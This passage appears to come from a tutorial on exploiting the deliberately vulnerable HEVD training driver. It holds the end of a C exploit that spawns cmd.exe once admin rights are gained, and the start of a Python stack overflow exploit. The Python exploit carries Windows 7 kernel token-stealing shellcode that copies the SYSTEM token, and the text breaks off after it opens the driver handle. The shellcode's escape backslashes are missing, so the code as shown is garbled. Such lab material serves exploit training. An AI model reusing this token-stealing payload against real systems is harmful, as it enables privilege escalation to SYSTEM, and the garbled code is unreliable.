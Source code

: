 ```
    ZeroMemory(&amp;si, sizeof si);
    si.cb = sizeof si;
    ZeroMemory(&amp;pi, sizeof pi);
    IsUserAnAdmin() ?
    CreateProcess(
        L"C:\Windows\System32\cmd.exe",
        L"/T:17", 
        NULL,
        NULL,
        0,
        CREATE_NEW_CONSOLE,
        NULL,
        NULL,
        (STARTUPINFO *)&amp;si,
        (PROCESS_INFORMATION *)&amp;pi) :
    wprintf(L"[!] Exploit Failed!");
    HeapFree(GetProcessHeap(), 0, (LPVOID)lpInBuffer);
    CloseHandle(hDevice);
    return 0;
`}`
//EOF
```

Python版



```
# https://github.com/OsandaMalith/Exploits/blob/master/HEVD/StackOverflowx86.py
import os 
import sys
import struct
from ctypes import *
from ctypes.wintypes import *
kernel32 = windll.kernel32
def TokenStealingPayloadWin7():
    shellcode = (
        #---[Setup]
        "x60"                      # pushad
        "x64xA1x24x01x00x00"  # mov eax, fs:[KTHREAD_OFFSET]
        "x8Bx40x50"              # mov eax, [eax + EPROCESS_OFFSET]
        "x89xC1"                  # mov ecx, eax (Current _EPROCESS structure)
        "x8Bx98xF8x00x00x00"  # mov ebx, [eax + TOKEN_OFFSET]
        #---[Copy System PID token]
        "xBAx04x00x00x00"      # mov edx, 4 (SYSTEM PID)
        "x8Bx80xB8x00x00x00"  # mov eax, [eax + FLINK_OFFSET] &lt;-|
        "x2DxB8x00x00x00"      # sub eax, FLINK_OFFSET           |
        "x39x90xB4x00x00x00"  # cmp [eax + PID_OFFSET], edx     |
        "x75xED"                  # jnz                           -&gt;|
        "x8Bx90xF8x00x00x00"  # mov edx, [eax + TOKEN_OFFSET]
        "x89x91xF8x00x00x00"  # mov [ecx + TOKEN_OFFSET], edx
        #---[Recover]
        "x61"                      # popad
        "x31xC0"                  # NTSTATUS -&gt; STATUS_SUCCESS
        "x5D"                      # pop ebp
        "xC2x08x00"              # ret 8
    )
    shellcodePtr = id(shellcode) + 20
    return shellcodePtr
def main():
    lpBytesReturned = c_ulong()
    hDevice = kernel32.CreateFileA("\\.\HackSysExtremeVulnerableDriver", 0xC0000000,0, None, 0x3, 0, None)
    if not hDevice or hDevice == -1:
        print "[!] Failed to get a handle to the driver " + str(ctypes.GetLastError())
```